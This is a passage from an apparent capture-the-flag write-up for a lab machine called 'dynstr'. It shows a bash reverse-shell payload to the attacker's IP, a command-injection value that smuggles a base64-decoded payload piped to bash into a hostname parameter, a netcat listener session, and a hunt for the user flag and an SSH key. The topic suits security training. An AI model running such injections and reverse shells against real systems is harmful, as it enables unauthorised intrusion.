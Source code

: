 ```
www-data
good <Redacted IP address>
```

### Obtaining a reverse shell
Firstly, we have to obtain a Base64 encoding of the following payload:
```
bash -i >& /dev/tcp/<IP address of your local machine>/3000 0>&1
```

Afterwards, we have to replace the hostname payload on the URL with a URL-encoded payload of the following format:
```
" | echo <Base 64 encoded payload>|base64 -d|bash;dynamicdns.no-ip.htb
```
After obtaining the reverse shell on our local machine, we will have to first stabilize the shell.
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000                              
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.244] 47558
bash: cannot set terminal process group (794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ic$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@dynstr:/var/www/html/nic$ export TERM=xterm
export TERM=xterm
www-data@dynstr:/var/www/html/nic$ stty cols 132 rows 34
stty cols 132 rows 34
```

### Obtaining user flag
We were able to find the user flag in ```/home/bindmgr``` directory. However, we realize that we do not have the correct privileges to view the file.
```
www-data@dynstr:/var/www/html/nic$ cd /home/bindmgr
cd /home/bindmgr
www-data@dynstr:/home/bindmgr$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@dynstr:/home/bindmgr$ 
```
### Obtaining SSH private key
Viewing the ```strace-C62796521.txt``` in the same directory, we were able to find an OPENSSH key that we will save to our local directory and try to SSH into the server.
```
```